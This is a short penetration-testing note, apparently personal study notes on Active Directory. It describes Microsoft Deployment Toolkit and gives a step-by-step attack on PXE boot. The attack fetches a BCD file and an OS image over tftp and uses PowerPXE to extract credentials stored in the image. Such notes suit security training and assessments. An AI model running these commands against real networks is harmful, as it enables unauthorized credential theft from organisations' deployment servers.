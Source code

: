 (MDT) is a Microsoft service that assists with automating the deployment of Microsoft Operating Systems (OS). 

Large organisations use services such as MDT to help deploy new images in their estate more efficiently since the base images can be maintained and updated in a central location.

MDT is used for new deployments and SCCM is used for updates of apps, services and OS. 

# 🚀 - Attacking PXE Boot
---

PXE Boot allows newly connected devices to download an OS image and install it, this image has network credentials that could be retrieved.

BCD files are configuration files and "call" the real location of the OS image.

1. Locate where the BCD files are (assuming you can see internally in a network and retrieve images)
2. Obtain the BCD, you can use tftp for it:

`tftp -i [serverIP] GET "\Tmp\x64{39...28}.bcd" conf.bcd
`
Usually the files are stored in the tmp folder of the MDT server.

3. Once obtained the file, analyze it with powerpxe.ps1

Script:
https://github.com/wavestone-cdt/powerpxe/tree/master

`Import Module .\PowerPXE.ps1`
`$BCDFile = conf.bcd`
`Get-WimFile -bcdFile $BCDFile`

4. That will tell you the OS image location, once obtained get it and analyze it for credentials:

`tftp -i [serverIP] GET "<PXE Boot Image Location>" pxeboot.wim`
`Get-FindCredentials -WimFile pxeboot.wim`

This should prompt you username credentials stored in the image.


### Properties
---
📆 created   {{28-11-2023}} 19:23
🏷️ tags: #activedirectory 
---
